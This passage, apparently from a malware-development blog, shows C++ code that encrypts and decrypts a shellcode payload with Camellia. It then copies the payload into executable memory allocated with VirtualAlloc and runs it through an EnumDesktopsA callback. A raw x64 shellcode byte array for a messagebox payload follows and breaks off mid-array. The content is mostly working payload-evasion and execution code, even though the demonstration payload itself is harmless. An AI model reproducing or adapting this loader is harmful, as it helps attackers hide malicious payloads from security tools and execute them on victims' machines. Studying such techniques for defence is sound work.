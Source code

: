 ```cpp
  int my_payload_len = sizeof(my_payload);
  uint64_t key1 = 0x0123456789ABCDEF;
  uint64_t key2 = 0xFEDCBA9876543210;

  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  camellia_encrypt_payload(padded, pad_len, key1, key2);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  camellia_decrypt_payload(padded, pad_len, key1, key2);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");
  
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  
  return 0;
}
```

As we can see, from code encryption and decryption use the same keys but apply the operations in reverse.

As usual, use `meow-meow` messagebox payload:     

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
```